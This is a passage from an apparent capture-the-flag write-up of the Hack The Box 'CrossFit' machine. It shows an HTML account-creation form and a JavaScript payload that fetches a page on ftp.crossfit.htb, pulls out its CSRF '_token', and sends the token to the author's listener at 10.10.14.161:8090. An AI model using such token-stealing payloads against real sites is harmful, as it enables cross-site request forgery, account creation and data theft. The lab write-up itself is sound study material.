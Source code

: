 ```markup
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>
</form>
</div>
</body>
</html>
```

![](../../.gitbook/assets/2.5-recreate-adduser.png)

With this page it looked as if I could create a new account.  I would need to send a POST request to `http://ftp.crossfit.htb/accounts` with a username, password, and the value from the hidden field `_token`. 

```javascript
//test2.js
//testing _token retrieval
//
var test = "http://ftp.crossfit.htb/accounts/create";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.send()
var response1 = request1.responseText;

//var request2 = new XMLHttpRequest();
//send response1 to my waiting python http.server 
//request2.open('GET', 'http://10.10.14.161:8090/' + response1, true);
//request2.send();

//var token = response1.getElementsByName('_token')[0].value;
var parser = new DOMParser();
var response_text = parser.parseFromString(response1, "text/html");
var token = response_text.getElementsByName('_token')[0].value;

//send _token value to my waiting python http.server 
var request3 = new XMLHttpRequest();
request3.open('GET', 'http://10.10.14.161:8090/' + token, true);
request3.send();
```
